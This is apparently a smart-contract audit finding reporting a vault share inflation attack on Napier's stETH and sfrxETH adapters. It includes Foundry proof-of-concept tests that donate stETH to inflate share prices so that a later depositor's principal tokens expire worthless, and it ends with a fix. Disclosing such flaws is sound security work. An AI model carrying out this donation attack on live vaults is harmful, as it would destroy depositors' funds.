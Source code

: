 Uneven Coffee Griffin

high

# Concrete implementations of `BaseLPTAdapter` are susceptible to vault inflation attacks.

## Summary

It is possible for malicious users to inflate the price of vault shares for concrete implementations of [`BaseLPTAdapter`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol) such as the [`StEtherAdapter`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/lido/StEtherAdapter.sol) and the [`SFrxETHAdapter.sol`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/frax/SFrxETHAdapter.sol).

## Vulnerability Detail

When the [`BaseLPTAdapter`](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/src/adapters/BaseLSTAdapter.sol) mints shares, the following calculation is used to determine how many shares to mint on behalf of the caller:

```solidity
uint256 assets = IWETH9(WETH).balanceOf(address(this)) - bufferEthCache;
uint256 shares = previewDeposit(assets);
```

Drilling down, the [`previewDeposit(uint256)`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/141c947921cc5d23ee1d247c691a8b85cabbbd5d/contracts/token/ERC20/extensions/ERC4626.sol#L151) relies on the following calculation:

```solidity
/**
 * @dev Internal conversion function (from assets to shares) with support for rounding direction.
 */
function _convertToShares(uint256 assets, Math.Rounding rounding) internal view virtual returns (uint256) {
    return assets.mulDiv(totalSupply() + 10 ** _decimalsOffset(), totalAssets() + 1, rounding);
}
```

In Napier, [`_decimalsOffset()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/141c947921cc5d23ee1d247c691a8b85cabbbd5d/contracts/token/ERC20/extensions/ERC4626.sol#L279) has not been overridden, and it returns by default `0`. A brief reminder of the following `totalAssets()` formulas:

### 📄 [StEtherAdapter.sol](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/adapters/lido/StEtherAdapter.sol#L114)

```solidity
function totalAssets() public view override returns (uint256) {
    uint256 stEthBalance = STETH.balanceOf(address(this));
    return withdrawalQueueEth + bufferEth + stEthBalance;
}
```

### 📄 [SFrxETHAdapter.sol](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/adapters/frax/SFrxETHAdapter.sol#L115)

```solidity
function totalAssets() public view override returns (uint256) {
    uint256 balance = STAKED_FRXETH.balanceOf(address(this));
    uint256 balanceInFrxEth = STAKED_FRXETH.convertToAssets(balance);
    return withdrawalQueueEth + bufferEth + balanceInFrxEth; // 1 frxEth = 1 ETH
}
```

These implementations of `totalAssets()` demonstrate that the calculations are susceptible to donations of the yield-bearing [`target`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/interfaces/IBaseAdapter.sol#L40) asset.

### 📄 [test/integration/lido/Tranche.t.sol](https://github.com/sherlock-audit/2024-01-napier/blob/main/napier-v1/test/integration/lido/Tranche.t.sol)

Let's briefly prove that vault shares can indeed be inflated:

```solidity
function testInflateVaultShares() public {

   adapter = new StEtherAdapter(address(1));

    vm.prank(address(1));
        StEtherAdapter(payable(address(adapter))).setTargetBufferPercentage(1 ether);

    address dave = address(0x69);

    deal(address(underlying), charlie, 100 * MAX_UNDERLYING_DEPOSIT, false);
    deal(address(underlying), dave, 100 * MAX_UNDERLYING_DEPOSIT, false);

    vm.startPrank(charlie);
        underlying.transfer(address(adapter), 1);
        adapter.prefundedDeposit();
    vm.stopPrank();

    assertEq(StEtherAdapter(payable(address(adapter))).balanceOf(charlie), 1);

    /// @dev Here we inflate the vault assets. For convenience we are
    /// using the `whale` address to make deposit.
    vm.prank(whale);
        IERC20(0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84).transfer(address(adapter), 1e18);

    vm.startPrank(dave);
        underlying.transfer(address(adapter), 1e18);
        adapter.prefundedDeposit();
    vm.stopPrank();

    /// @notice `dave` only receives a single share for their
    /// deposit of 1e18 underlying.
    assertEq(StEtherAdapter(payable(address(adapter))).balanceOf(dave), 1);

}
```

This leads to an amplified [`scale()`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/adapters/BaseLSTAdapter.sol#L232) value combined with relatively small shares, which conspires against the current logical assumptions.

The sequence below demonstrates that when we fast-forward to `maturity`, the combination of illiquid shares with rounding down against the redeemer of the shares results in the failure to redeem principle tokens, rendering them worthless:

```solidity
 /// @param performInflationAttack Whether to inflate the vault.
function testFuzz_InflateVaultShares(bool performInflationAttack) public {

    vm.prank(rebalancer);
        StEtherAdapter(payable(address(adapter))).setTargetBufferPercentage(1 ether);

    deal(address(underlying), charlie, 100 * MAX_UNDERLYING_DEPOSIT, false);

    if (performInflationAttack) {

        vm.startPrank(charlie);
        underlying.transfer(address(adapter), 1);
        adapter.prefundedDeposit();
        vm.stopPrank();

        assertEq(StEtherAdapter(payable(address(adapter))).balanceOf(charlie), 1);

        /// @dev Here we inflate the vault assets. For convenience we are
        /// using the `whale` address to make deposit.
        vm.prank(whale);
            IERC20(0xae7ab96520DE3A18E5e111B5EaAb095312D7fE84).transfer(address(adapter), 1e18);
    }

    address emma = address(0x1559);

    deal(address(underlying), emma, 100 * MAX_UNDERLYING_DEPOSIT, false);

    vm.startPrank(emma);
        IERC20(address(underlying)).approve(address(tranche), type(uint256).max);
        tranche.issue(address(emma), 1e18);
        assertEq(tranche.balanceOf(emma), performInflationAttack ? 500000000000000000 : 1000000000000000000);
    vm.stopPrank();

    // Let's skip to maturity.
    vm.warp(tranche.maturity());

    /// @dev When we perform the inflation attack, emma's
    /// shares expire worthless.
    assertEq(tranche.previewRedeem(tranche.balanceOf(emma)), performInflationAttack ? 0 : 1000000000000000000);

}
```

Further still, it can be proven that the vault undergoing a share inflation attack combined with non-zero [`issuanceFees`](https://github.com/sherlock-audit/2024-01-napier/blob/6313f34110b0d12677b389f0ecb3197038211e12/napier-v1/src/Tranche.sol#L92), can result in stakers receiving zero yield stripping tokens in exchange for their deposits due to rounding in favour of the protocol.

## Impact

It is economically concievable for attackers to force principle tokens to expire worthless at maturity.

## Code Snippet

```solidity
function _decimalsOffset() internal view virtual returns (uint8) {
    return 0;
}
```

## Tool used

Foundry, Chisel

## Recommendation

It is recommended to override [`_decimalsOffset()`](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/141c947921cc5d23ee1d247c691a8b85cabbbd5d/contracts/token/ERC20/extensions/ERC4626.sol#L279) with a higher value to decrease the feasibility of economic attacks. Using a greater value will radically diminish the both the economic incentive and influence of a single staker's malicious donation to the pool.